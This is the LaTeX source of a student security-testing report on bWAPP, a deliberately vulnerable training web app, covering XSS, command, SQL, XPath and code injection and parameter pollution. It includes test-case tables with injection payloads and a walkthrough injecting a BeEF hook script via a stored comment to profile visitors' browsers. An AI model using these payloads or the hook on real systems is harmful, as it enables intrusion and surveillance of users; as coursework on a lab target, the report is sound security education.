\documentclass{article}

% Language setting
% Replace `english' with e.g. `spanish' to change the document language
\usepackage[english]{babel}

% Set page size and margins
% Replace `letterpaper' with `a4paper' for UK/EU standard size
\usepackage[letterpaper,top=2cm,bottom=2cm,left=3cm,right=3cm,marginparwidth=1.75cm]{geometry}

% Useful packages
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage[colorlinks=true, allcolors=blue]{hyperref}
\usepackage{xcolor}
\usepackage[many]{tcolorbox}
\usepackage[T1]{fontenc}
\usepackage{listings}
\usepackage{booktabs}
\usepackage{float}


\definecolor{dkgreen}{rgb}{0,.6,0}
\definecolor{dkblue}{rgb}{0,0,.6}
\definecolor{dkyellow}{cmyk}{0,0,.8,.3}

\lstset{
  language        = php,
  basicstyle      = \small\ttfamily,
  keywordstyle    = \color{dkblue},
  stringstyle     = \color{red},
  identifierstyle = \color{dkgreen},
  commentstyle    = \color{gray},
  emph            =[1]{php},
  emphstyle       =[1]\color{black},
  emph            =[2]{if,and,or,else},
  emphstyle       =[2]\color{dkyellow}
}

\lstset{
  language        = php,
  basicstyle=\ttfamily,
  showstringspaces=false,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}

\title{\textbf{QASST Project}}
\author{Terec Andrei-Sorin, andrei.terec@stud.ubbcluj.ro\\
Pop David, david.alexandru.pop@stud.ubbcluj.ro\\
George Popovici, george.ioan.popovici@stud.ubbcluj.ro}
\newpage

\begin{document}
\maketitle


\tableofcontents

\newpage

\section{Software Tested}
\label{label:Software_tested}

We are testing the bWAPP web application. \cite{bwapp}
bWAPP, or a buggy web application, is a free and open source deliberately insecure web application.
bWAPP is a PHP application that uses a MySQL database. It can be hosted on Linux/Windows with Apache/IIS and MySQL.

\section{Approach on Security}
\label{}

In this paper we will do a mixed approach in which we will identify and explain the found vulnerabilities together with potential fixes.
Terec Andrei and Popovici George-Ioan are doing offensive testing. Their main strategy will consider cracking into the application throughout different vulnerabilities and finding possible fixes. Pop David is doing defensive testing, in which he will use a Static Application Security Testing tool, with the help with will identify vulnerabilities and he will try to implement the suggested fixes from the scanner. The scanner used for this paper is Snyk, with a free account.

\section{Strategy Applied}
\label{}

\subsection{Offensive approach}
\par For vulnerability 01, We are going to manually test different malformed inputs, especially combinations of caracters that are kow that can be dangerous user input for a web server with PHP and MySQL. We will test if HTML tags are escaped correctly.
\par For vulnerability 02, We again will try malformed inputs, but this time we will keep in mind that server seems to put our user input into a shell script.
\par For vulnerability 03, we can rely on trial and error to try to infer the SQL query used by the server to show the searched movies. After that, using the newly acquired knowledge, we can maliciously manipulate the database.
\par For vulnerability 04, we can easily see all the HTTP parameters used by the web app in the URL and use the knowledge that PHP (other types of servers behave differently \cite{vul:httppp-extra}) only takes into consideration the last appearance of a parameter in case of multiple with the same name in order to exploit it.

\subsection{Defensive approach}
\par For the defensive approache we will go over some well-known vulnerabilities suggested by the scanning tool: SQL Injection, Code Injection and XPath injection. The strategy used relies on the code smells gathered by the security scanning tool. After the vulnerabilities were identified and reproduced, we will try to implement the suggested solutions by the scanner. The levels of the vulnerabilities reproduced are high and critical.

\section{Vulnerabilities}
\label{}
\par Vulnerability 01. On the path /bWAPP/xss\_stored\_1.php is a blog post where you can upload comments.
We are going to exploit the vulnerability \textit{CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')} \cite{vul:xss}.
Stored XSS is a type of Cross-Site Scripting vulnerability where malicious scripts are permanently stored on a target server (e.g., in a database, comments, or user profile fields). When other users access the affected page, the script executes in their browsers.

\par Vulnerability 02. On the path /bWAPP/commandi\_blind.php is a page that pings the ip provided.
We are going to exploit the vulnerability \textit{CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')} \cite{vul:command-injection}

OS Command Injection is a security vulnerability that occurs when an application executes operating system commands using untrusted user input without proper validation or sanitization. Attackers exploit this flaw to inject and execute arbitrary commands on the server, potentially gaining unauthorized access or control.


\par Vulnerability 03. On the path /bWAPP/sqli\_1.php is a web app where you can search for movies in a database by their titles using a search bar. We are going to exploit the vulnerability \textit{CWE-89: SQL Injection}. \cite{Vuln001}
\par Vulnerability 04. On the path /bWAPP/hpp\_1.php is a web app where you can type in your username and vote for your favorite movie. We are going to exploit the vulnerability HTTP Parameter Pollution, which would fit the categorization \textit{CWE-235: Improper Handling of Extra Parameters the best}. \cite{vul:httppp}

\par Vulnerability 05. SQL Injection. On the path /sqli1.php we can find a page on which we can query for movies by title by inputing into a textbox. The Snyk scanner reports the query used in the code as susceptible to SQL Injection and categorize this vulnerability as a high vulnerability. The scanner also suggests multiple solutions to fix this issue \textit{CWE-89: SQL Injection}  \cite{Vuln001}.
\par Vulnerability 06. XPath. On the path /xmli\_2.php we can find a page on which we can search for movies by their genre. The movies are read from a XML file \textit{CWE-91: XML Injection (aka Blind XPath Injection)} \cite{vul:xpath}. The scanner suggests that the code has a vulnerability in which the xml path can be altered. The solution suggested by the scanner is effective for found vulnerability.
\par Vulnerability 07. Code Injection. On the path phpi.php we can find a page in which we can print a message. The vulnerability is \textit{
    CWE-94: Improper Control of Generation of Code ('Code Injection')} \cite{vul:code-injection}. The vulnerability allows users to execute php code, as suggested by the scanner. The solution suggested by the scanner is not powerful enough to cover all the cases.

\section{Aimed Assets}
\label{}
\par The assets that may be affected by the presence of the selected vulnerabilities are: database, web server. The database may be altered, meaning reading data which is not exposed publicly or inserting data which may corrupt the integrity of the database. The web server which is hosting the app can be altered, either by reading data from the server such as folders, users or working at the level of the operating system.
Not only the server is affected, but also the user, as we can collect information about the users with XSS attacks and send them phishing attacks.
\section{Affected Security Attributes}
\label{}
\begin{table}[ht]
    \centering
    \begin{tabular}{@{}lccccc@{}}
        \toprule
        \textbf{Vulnerability}     & \textbf{Confidentiality} & \textbf{Integrity} & \textbf{Availability} & \textbf{Authentication} & \textbf{Non-repudiation} \\ \midrule
        \textbf{XSS}               & Yes                      & Yes                & No                    & Yes                     & No                       \\
        \textbf{SQL Injection}     & Yes                      & Yes                & Yes                   & Yes                     & No                       \\
        \textbf{Code Injection}    & Yes                      & Yes                & Yes                   & No                      & No                       \\
        \textbf{Command Injection} & Yes                      & Yes                & Yes                   & Yes                     & No                       \\
        \textbf{XPath Injection}   & Yes                      & Yes                & No                    & Yes                     & No                       \\ \bottomrule
    \end{tabular}
    \caption{CIAAN Attribute Impact for Various Vulnerabilities}
    \label{tab:vulnerability_impact}
\end{table}

The table summarizes the impact of various vulnerabilities on the attributes of the CIAAN model:

\begin{itemize}
    \item \textbf{Cross-Site Scripting (XSS)}:
          XSS affects \textbf{Confidentiality} by enabling attackers to steal sensitive data such as session cookies. It impacts \textbf{Integrity} by allowing attackers to modify the content of web pages. XSS may also compromise \textbf{Authentication} via session hijacking.

    \item \textbf{SQL Injection}:
          This vulnerability affects \textbf{Confidentiality} by exposing sensitive database records. It compromises \textbf{Integrity} by allowing attackers to modify or delete data. \textbf{Availability} is affected when malicious queries disrupt database functionality, and \textbf{Authentication} may be bypassed through malicious input.

    \item \textbf{Code Injection}:
          Code injection impacts \textbf{Confidentiality} by exposing sensitive information, \textbf{Integrity} by altering system behavior or data, and \textbf{Availability} by causing disruptions or crashes.

    \item \textbf{Command Injection}:
          This affects \textbf{Confidentiality} by providing unauthorized access to system files, \textbf{Integrity} by enabling file or configuration tampering, \textbf{Availability} by disrupting system functionality, and \textbf{Authentication} by potentially creating backdoors.

    \item \textbf{XPath Injection}:
          Similar to SQL injection, XPath injection affects \textbf{Confidentiality} by retrieving sensitive XML data, \textbf{Integrity} by allowing data manipulation, and \textbf{Authentication} by enabling bypassing of login mechanisms.
\end{itemize}

\section{Tools Employed}
\label{}

The tool used for defensive approach was Snyk. This tool is a Static Application Security Testing (SAST), which scans the code and analyze it and display the found vulnerabilities, along with possible solutions. There are two main benefits to introduce this tool in the development process:
\begin{itemize}
    \item It makes the security of the app better by cathing vulnerabilities earlier in the lifecycle of the application
    \item It helps companies losing less money by cathing the vulnerabilities earlier, being a better improvement to avoid introducing a major vulnerability into the production and losing money, customers or data leaks.
\end{itemize}

\section{Test Design. Test Execution. Test Report}
\label{}
The test design technique we will be using for the vulnerabilities XSS, OS Command Injection, Sql Injection and HTTP parameter pollution error guessing.

\subsection{XSS - Stored}
\begin{table} [htpb]
    \centering
    \begin{tabular}{l|l|l|l|l}
        Feature & TC ID & Input                     & Expected Output           & Output              \\ \hline
        F001    & TC01  & Test                      & Test                      & Test                \\
        F001    & TC02  & " --                      & " --                      & \textbackslash " -- \\
        F001    & TC03  & <script>alert(1)</script> & <script>alert(1)</script> & Prints out 1        \\
    \end{tabular}
    \caption{\label{tab:TC-XSS}TCs XSS table.}
\end{table}

As we can see in \ref{fig:xss-alert}, the script is executed, this means there is a XSS attack.

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/xss-alert.png}
    \caption{\label{fig:xss-alert}The alert script executed}
\end{figure}

\subsection{OS Command Injection}
Using the knowledge that the server is goind to ping the ip address provided, we can check if the server is vulnerable for OS Command Inject.
We will test on medium difficulty.
Because the output of our command is not shown, this is trickier. One way to get around this is to try to execute the command sleep 5.
If the server waits 5 seconds before sending a response, we know that we managed to inject our command.

\begin{table} [htpb]
    \centering
    \begin{tabular}{l|l|l|l|l}
        Feature & TC ID & Input                  & Expected Output        & Output                 \\ \hline
        F002    & TC01  & 127.0.0.1              & Immediately Terminates & Immediately Terminates \\
        F002    & TC02  & 127.0.0.1; sleep 5     & Immediately Terminates & Immediately Terminates \\
        F002    & TC03  & 127.0.0.1 \&\& sleep 5 & Immediately Terminates & Immediately Terminates \\
        F002    & TC04  & 127.0.0.1 || sleep 5   & Immediately Terminates & Immediately Terminates \\
        F002    & TC05  & 127.0.0.0 || sleep 5   & Immediately Terminates & Waits ~5 seconds       \\
        F002    & TC06  & || sleep 5             & Immediately Terminates & Waits ~5 seconds       \\
        F002    & TC07  & 127.0.0.1 | sleep 5    & Immediately Terminates & Waits ~5 seconds       \\
    \end{tabular}
    \caption{\label{tab:TC-command-injection}TCs OS Command Injection table.}
\end{table}

As we can see in the table \ref{tab:TC-command-injection} and figure \ref{fig:sleep-command}, it seems that only the \& and ; caracters are escaped/removed and we can still exploit it using the "|" caracter.
We can either create an or command with "||". Because of lazy evaluation, the second command will be evaluated only if the first command failed.
We can make the command fail if we don't suply an argument or an invalid one.
The other way we can inject a command is with the pipe operator, which works regardles of if the first command ends with success or failure.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{Figures/command-injection/sleep-command.png}
    \caption{\label{fig:sleep-command}After running the sleep command, the server waits 5 seconds before returning}
\end{figure}

\subsection{SQL Injection (GET/Search)}
\begin{table} [htpb]
    \centering
    \begin{tabular}{l|l|l|l|l}
        Feature & TC ID & Input   & Expected Output & Output     \\ \hline
        F003    & TC01  &         & Invalid output  & All movies \\
        F003    & TC02  & blank   & Invalid output  & All movies \\
        F003    & TC03  & 1’ -- - & Invalid output  & No movies  \\
    \end{tabular}
    \caption{\label{tab:TC-SQLi}TCs SQLi table.}
\end{table}

As we can see in \ref{fig:sqli-all}, the first two test cases may show to the attacker that the query given to the DB by the server to get the searched movies is “SELECT * FROM movies WHERE title LIKE ‘%%’”, especially because in MySQL “%%%” refers to all entries of a table.

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqli_oopsie.png}
    \caption{\label{fig:sqli-all}All movies shown}
\end{figure}

As we can see in \ref{fig:sqli-none}, the last test case shows that the web app may easily be prone to SQL injection, as the server took the input as a valid string.

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/sqli/sqli_verybad.png}
    \caption{\label{fig:sqli-none}No movies shown}
\end{figure}

\subsection{HTTP Parameter Pollution}
\begin{table} [htpb]
    \centering
    \begin{tabular}{l|l|l|l|l}
        Feature & TC ID & Input & Expected Output & Output         \\ \hline
        F004    & TC01  & =     & Invalid output  & =              \\
        F004    & TC02  & blank & Invalid output  & Invalid output \\
        F004    & TC03  & \&    & Invalid output  & \&             \\
    \end{tabular}
    \caption{\label{tab:TC-SQLi-offensive}TCs HTTP PP table.}
\end{table}
As we can see in \ref{fig:httppp-1} and \ref{fig:httppp-2}, which illustrate the test cases 1 and 3, the server takes strings that contain query characters as is, highlighting the possibility of a vulnerability to HTTP Parameter Pollution attacks.

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/httppp/http_oopsie.png}
    \caption{\label{fig:httppp-1}Ampersand}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/httppp/http_oopsieagain.png}
    \caption{\label{fig:httppp-2}Equals}
\end{figure}


\subsection{Report summary of vulnerabilities}
The report summary made by Snyk suggests a number of 349 issues identified in the project, as can be seen in Figure \ref{fig:snyk-report-summary}. There are 97 high, 59 medium and 208 low issues.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/issues.PNG}
    \caption{Snyk report summary}
    \label{fig:snyk-report-summary}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{Figures/defensive/all-issues.PNG}
    \caption{Snyk report summary}
    \label{fig:snyk-report-summary2}
\end{figure}
\par The vulnerabilities used in this paper are: SQL Injection, XPath and Code Injection.
\begin{table} [H]
    \centering
    \begin{tabular}{l|l|l|l|l}
        Feature        & TC ID & Input                          & Expected Output        & Output          \\ \hline
        SQL Injection  & TC01  & ' union select database() -- - & Immediately Terminates & bWAPP           \\
        XPath          & TC02  & ")]child::node()               & Immediately Terminates & all the data    \\
        Code Injection & TC03  & system.log("ls -la")           & Immediately Terminates & all the content \\
    \end{tabular}
    \caption{\label{tab:TC-defensive}Defensive TC table.}
\end{table}
\section{Vulnerability Exploit}
\label{}

\subsection{Manual Exploit}
\subsubsection{XSS store exploit}
\label{section:xss-store-exploit}
We can use the beef project to exploit this vulnerability. First, we need to download and install this project on the attacker host from the git repository: https://github.com/beefproject/beef.

After we installed it and run the program, we can expose this service online using port forwarding or a reverse proxy, like ngrok.\ref{fig:beef-server-started}
In this test run, the user machine attacked is in the same LAN network as the attacker, so this step is not needed.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/beef-server-started.png}
    \caption{\label{fig:beef-server-started}beef server started}
\end{figure}


Now we need to install the hook using the xss vulnerability we found earlier. In our case, the hook url is at http://10.0.2.15:3000/hook.js
For this we need to send a comment with our script hook. \ref{fig:inject-hook}
Now, we are in. Every user that wants to see the comments will automatically load our javascript script, unless they have disabled javascript execution.
When a user sees the comment section, we get a lot of informations about them, like the browser they are using, the operation system, the browser plugins installed, the device width and height, arhitecture, number of CPU cores and much more without the user even clicking a malicious link.

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/inject-hook.png}
    \caption{\label{fig:inject-hook}Injecting the javascript hook into the website}
\end{figure}

\begin{figure}
    \centering
    
\includegraphics[width=1\linewidth]{Figures/beef/browser-details.png}
    \caption{\label{fig:browser-details}User browser informations}
\end{figure}


